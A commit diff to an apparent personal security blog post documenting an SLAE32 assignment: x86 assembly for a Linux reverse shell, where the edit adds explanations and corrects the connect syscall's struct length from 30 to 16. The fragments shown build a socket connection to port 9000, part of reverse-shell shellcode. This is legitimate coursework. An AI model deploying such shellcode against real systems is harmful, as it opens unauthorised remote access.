

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-14-SLAE-Reverse.md, in a window 1280 px wide and 1400 px high, scrolled down 1035 px. Shown: the top 930 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-01-14-SLAE-Reverse.md

````diff
--- a/_posts/posts/2021-01-14-SLAE-Reverse.md
+++ b/_posts/posts/2021-01-14-SLAE-Reverse.md
@@ -70,6 +70,9 @@ registers. Finally, the value of protocol (EDX) isn't actually very relevant. Du
       mov esi, eax            ; Saves the value of eax for sockfd values later on.
 ```
 
+As explained on the previous post, we can see that the value of EAX is being saved on ESI, this will be from great help when referring to the socket syscall as a file
+descriptor.
+
 ##### Connect
 
 ###### Initiate a connection on a socket
@@ -82,6 +85,9 @@
 + Chosen Port  (The chosen port will be pushed in hex as a word.)
 + AF_INET
 
+Furthermore, we have to satisfy the socklen_t addrlen argument as well. This requires the length of the previous struct, as like in the previous chapter, it was 16. This will be
+reflected upon the value of DL
+
 ```term
 connect:
 
@@ -93,7 +99,7 @@ connect:
       push word 0x2823        ; Pushes 9000 in hex as a WORD.
       push word 0x02          ; Pushes AF_INET into the stack.
       mov ecx, esp            ; Copies the value of ESP into ECX.
-      mov dl, 30              ; The value 30 is inserted into DL, as this argument requires the length of the struct.
+      mov dl, 16              ; The value 16 is inserted into DL, as this argument requires the length of the struct.
       int 0x80                ; Call to kernel.
 ```
 
@@ -120,6 +126,7 @@ dup2:
 ```
 
 
+
 #### EndGame
 
 ![](/assets/img/SLAE/SLAE32/Assignment_2/2.png)
````
